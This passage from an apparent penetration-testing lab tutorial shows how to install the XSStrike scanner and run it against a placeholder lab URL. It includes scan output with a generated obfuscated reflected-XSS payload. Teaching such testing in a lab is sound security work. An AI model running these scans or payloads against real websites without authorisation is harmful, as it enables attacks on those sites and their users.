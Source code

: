 
Some of the common open-source tools that can assist us in XSS discovery are [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser). We can try `XSS Strike` by cloning it to our VM with `git clone`:

  XSS Discovery

```shell-session
hidalg0dd@htb[/htb]$ git clone https://github.com/s0md3v/XSStrike.git
hidalg0dd@htb[/htb]$ cd XSStrike
hidalg0dd@htb[/htb]$ pip install -r requirements.txt
hidalg0dd@htb[/htb]$ python xsstrike.py

XSStrike v3.1.4
...SNIP...
```

We can then run the script and provide it a URL with a parameter using `-u`. Let's try using it with our `Reflected XSS` example from the earlier section:

  XSS Discovery

```shell-session
hidalg0dd@htb[/htb]$ python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 

        XSStrike v3.1.4

[~] Checking for DOM vulnerabilities 
[+] WAF Status: Offline 
[!] Testing parameter: task 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 3072 
------------------------------------------------------------
[+] Payload: <HtMl%09onPoIntERENTER+=+confirm()> 
[!] Efficiency: 100 
[!] Confidence: 10 
[?] Would you like to continue scanning? [y/N]
```